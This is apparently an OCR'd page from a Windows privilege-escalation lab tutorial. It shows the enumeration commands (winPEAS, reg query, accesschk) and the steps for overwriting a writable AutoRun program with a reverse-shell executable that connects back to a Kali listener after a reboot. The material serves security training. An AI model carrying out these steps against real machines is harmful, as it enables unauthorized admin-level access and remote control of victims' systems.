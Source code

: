 1.
Use winPEAS to check for writable AutoRun executables:
.\winPEASany.exe quiet applicationsinfo



2.
Alternatively, we could manually enumerate the AutoRun executables:

reg query
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
and then use 

accesschk.exe to verify the permissions on each one:


 .\accesschk.exe /accepteula -wvu "C:\Program
Files\Autorun Program\program.exe"


3.
The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by
Everyone. 

Create a backup of the original:

copy "C:\Program Files\Autorun Program\program.exe" C:\Temp

4.
Copy our reverse shell executable to overwrite the AutoRun executable:

copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun
Program\program.exe"


5.
Start a listener on Kali, and then restart the Windows VM to trigger the exploit. 

>Note that on
Windows 10, the exploit appears to run with the privileges of the last logged on user, so log
out of the “user” account and log in as the “admin” account first.